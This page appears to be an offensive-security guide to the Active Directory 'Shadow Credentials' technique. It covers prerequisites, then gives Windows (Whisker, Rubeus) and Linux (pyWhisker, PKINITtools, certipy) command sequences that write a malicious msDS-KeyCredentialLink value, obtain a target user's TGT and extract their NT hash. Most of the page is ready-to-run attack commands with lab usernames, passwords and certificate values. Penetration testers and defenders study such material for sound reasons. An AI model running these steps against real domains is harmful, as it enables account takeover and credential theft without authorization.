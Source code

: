 # Shadow Credentials

## Pre-requisites

For this technique to work, it is necessary to have the ability to write the attribute `msDS-KeyCredentialLink` on a target user or computer, and the environment must be set up as follows:

1. The target Domain must have at least one Domain Controller running Windows Server 2016 or above.
2. The Domain Functional Level should be Windows Server 2016 or above.
3. The Domain Controller to be used during the attack must have its certificate and keys. This means the organization must have AD CS, PKI, CA, or something similar.

As mentioned by [ShutdownRepo](https://github.com/ShutdownRepo/pywhisker), Pre-reqs 1 and 2 must be met because the PKINIT features were introduced with Windows Server 2016. Pre-req 3 is necessary because the DC requires its own certificate and keys for the session key exchange during the AS_REQ <-> AS_REP transaction. If Pre-req 3 is not met, a `KRB-ERROR (16): KDC_ERR_PADATA_TYPE_NOSUPP` will be raised.

## From Windows

To abuse Shadow Credentials from Windows, we will use [Whisker](https://github.com/eladshamir/Whisker).

```powershell
# Read value of msDS-KeyCredentialLink attribute of the target
.\Whisker.exe list /target:gabriel

# Generate certificate and print the rubeus command needed to retrieve the account's TGT and NTLM hash
.\Whisker.exe add /target:gabriel

# Run rubeus to get the TGT and NTLM hash
.\Rubeus.exe asktgt /user:gabriel /certificate:MIIJuAIBAzCCCXQGC..SNIP...6F9yJkzw28UnNcCs/0aclXHfAwICB9A= /password:"cw7I7QaHMS44q5xt" /domain:lab.local /dc:LAB-DC.lab.local /getcredentials /show /nowrap
```

## From Linux

We will use [pyWhisker](https://github.com/ShutdownRepo/pywhisker) to abuse the Shadow Credentials from Linux, a Python equivalent of the original `Whisker`. It is based on `Impacket` and a Python equivalent of [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) called [PyDSInternals](https://github.com/p0dalirius/pydsinternals). Using this tool along with [Dirk-jan's PKINITtools](https://github.com/dirkjanm/PKINITtools) enables complete exploitation from a UNIX-based systems.

```bash
# Enumerate current msDS-KeyCredentialLink values
pywhisker -d lab.local -u jeffry -p Music001 -t gabriel -a list

# Add our malicious msDS-KeyCredentialLink value
pywhisker -d lab.local -u jeffry -p Music001 -t gabriel -a add
```

The output provides us with three essential things: the `KeyCredential DeviceID,` the name of the certificate (in this case, `BX4EWk8m.pfx`), and the certificate's password `KQAx5lHP3h9TtzNly2Us`.

```bash
# Request TGT as Gabriel (PKINITtools)
gettgtpkinit -cert-pfx ../pywhisker/BX4EWk8m.pfx -pfx-pass KQAx5lHP3h9TtzNly2Us lab.local/gabriel gabriel.ccache

# Extract Gabriel's NT hash
KRB5CCNAME=gabriel.ccache python3 getnthash.py -key 46c30d948cbe2ab0749d2f72896692c18673e9a4fae6438bff32a33afb49245a lab.local/gabriel

# Remove our malicious msDS-KeyCredentialLink value
pywhisker -d lab.local -u jeffry -p Music001 -t gabriel -a remove -D 643db54c-4507-6fc0-1801-3ca6c9604602
```

We can also use certipy which performs every step for us.

```bash
certipy shadow auto -u $USER@$DOMAIN -p '$PASSWD' -account $TARGET_USER
certipy shadow auto -k -target $TARGET -account $TARGET_USER
```
